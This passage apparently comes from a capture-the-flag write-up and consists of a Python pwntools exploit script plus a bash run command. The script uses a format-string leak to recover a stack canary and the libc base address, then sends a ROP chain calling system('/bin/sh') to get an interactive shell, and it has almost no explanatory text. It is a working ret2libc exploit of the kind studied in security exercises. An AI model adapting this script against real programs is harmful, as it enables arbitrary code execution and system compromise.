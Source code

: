 ```python
gift = int(recvline(), 16)
success(f'>> gift = {hex(gift)}')
sendline(b'%p.'*0x1e)
resp = recvline(keepends=False).split(b'.')
print(resp)
canary = int(resp[-2], 16)
success(f'>> canary = {hex(canary)}')
libc.address = int(resp[-8], 16) - 0x1147b8
success(f">> libc = {hex(libc.address)}")

bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
ret_addr = libc.address + 0x0000000000029139
pop_rdi_ret = libc.address + 0x000000000002a3e5

payload = b'A'*0x108 + p64(canary) + p64(0) + flat(pop_rdi_ret, bin_sh, ret_addr, system)
sh.send(payload)
sh.interactive()
```

```bash
python exp.py -a main.py venv/bin/python # venv/bin/python 是 3.7 的版本
```
